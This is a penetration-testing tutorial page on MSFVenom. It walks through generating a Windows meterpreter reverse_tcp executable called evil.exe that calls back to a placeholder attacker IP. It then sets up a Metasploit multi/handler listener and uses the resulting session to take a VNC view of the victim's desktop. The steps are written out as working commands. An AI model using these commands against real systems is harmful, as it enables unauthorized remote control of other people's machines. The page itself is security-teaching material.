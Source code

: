 ```yaml
---
path: "/tutorials/securitypentesttools/Msfvenom"
date: "2020-04-06"
title: "MSFVenom"
---
```


MSFVenom is a tool used to create malicious payloads for the Metasploit framework. The Metasploit framework is a tool for developing and executing remote exploits on a vulnerable target. Tools within the framework allow you to complete various stages of a penetration test.

####Establishing a VNC Session
MSFVenom can be used to create lots of different types of payload. One of these can be used to establish a VNC session on a remote host. Virtual Network Computing (VNC) is a system that allows remote graphical connections to a host, this allows you to use the device remotely as though you were sitting in front of it. There are a number of VNC variants offering different features. Establishing a malicious VNC session on a target machine gives you a good foothold in a target network.

Generating a payload is simple enough:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attackerIP> LPORT=<myPort> -o /root/Desktop/evil.exe
```
* *-p* - Specifies the payload we'd like to use. There are a large number of payloads to choose from.
* *--platform* - This is where you choose the platform the payload is for. Use the man page to discover the available payloads.
* *-a* - Architecture the exploit will run on.
* *-f* - The format of the output file
* *LHOST* - For this exploit this is how you specify the IP address of the listening machine
* *LPORT* - Similar to the above this is how you specify the port the listener will listen on.
* *-o* - The name and location of the output file.

This will generate an exe file that can run on Windows. 

We'll now start the listener on our attacker machine.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit
```

The listener is now setup.

During a normal penetration test you would have to find a way to get the file onto a target machine, this is the tricky part but I won't be telling you how to do it.

Once the user runs your exe file the system will be compromised. You'll see that the listener opens a meterpreter session and displays the IP and prot of the listener and the victim.

Now we can use the established connection to tamper with the victim machine.

```bash
session -i 1
sysinfo
run vnc
```
* *session -i 1* - This ensures we are using session 1.
* *sysinfo* - Displays basic information about the system the session is open on.
* *run vnc* - Opens up a VNC session on the infected machine. Once this command is run you will see a screen appear showing the user's desktop.

**N.B** The exploit that we have created using MSFVenom will likely be caught by most standard antivirus tools. The are methods to reduce the chance of detection, but I won't go into detail for this section.